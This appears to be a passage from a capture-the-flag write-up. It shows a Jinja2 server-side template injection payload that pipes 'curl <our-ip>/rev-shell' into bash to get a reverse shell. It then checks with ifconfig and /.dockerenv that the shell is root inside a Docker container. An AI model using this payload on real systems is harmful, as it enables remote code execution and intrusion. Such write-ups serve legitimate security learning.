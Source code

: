 
{% raw %}
```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl <our-ip>/rev-shell | bash').read()}}
```
{% endraw %}

And we get our shell!

<img src="../figs/ggs12.png" alt="rev shell" >

First, we are root, but the absence of the root flag in the /root directory shows us that we might be inside a Docker container, and that we are root within the container. In real life, we would not have a flag waiting for us in /root, so we would need to resort to other techniques to check if we are inside a Docker container.
The first thing we can do is run ifconfig and check the IP address of the machine:

```bash
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 1538  bytes 235795 (230.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1341  bytes 2871375 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can see that our IP does not match the one of the actual box. Another way to check if we are indeed inside a Docker container
is to see if a `.dockerenv` file exists in `/`:


```bash
root@3a453ab39d3d:/backend# ls / -la
ls / -la
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  5  2021 backend
drwxr-xr-x   1 root root 4096 Nov  5  2021 bin
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   5 root root  340 Jan 12 23:03 dev
drwxr-xr-x   1 root root 4096 Nov  5  2021 etc
drwxr-xr-x   1 root root 4096 Nov  5  2021 home
[...snip...]
```
